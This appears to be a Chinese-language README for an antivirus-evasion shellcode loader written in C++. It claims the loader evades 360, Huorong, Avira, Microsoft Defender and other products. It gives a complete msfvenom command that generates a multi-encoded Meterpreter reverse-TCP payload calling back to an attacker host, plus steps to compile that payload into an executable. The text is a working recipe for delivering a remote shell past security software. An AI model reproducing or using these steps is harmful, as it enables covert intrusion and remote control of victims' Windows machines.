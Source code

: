 ## c++免杀

此免杀加载器本身未做任何编码，只加了cpu核心数检测、延时、内存加载，直接使用cs和msf默认payload会被检出，所以推荐配合msf多重编码使用，可以达到非常好的免杀效果。

如有需要可以自行加一些编码、异或、加解密操作对shellcode进行处理。

### 1、目前免杀情况
实机测试可过360、火绒

沙箱可过360、火绒、小红伞、微软、江民、瑞星等--2022.8.16

### 2、使用方法

1)使用msf多重编码生成payload，例如

```
msfvenom -p  windows/x64/meterpreter/reverse_tcp lhost=xxx.xxx.xxx.xxx lport=xxxx -a x64 --platform windows -e x64/zutto_dekiru -i 4 -f raw | msfvenom -a x64 --platform windows -e x64/zutto_dekiru -i 4 -f c -o 123.c
```

2)将shellcode 替换cpp文件中的test变量，执行gcc .\memshellSleepCpu.cpp -o 123.exe -lstdc++生成exe


![](https://github.com/echohun/miansha/blob/main/c++/1.png?raw=true)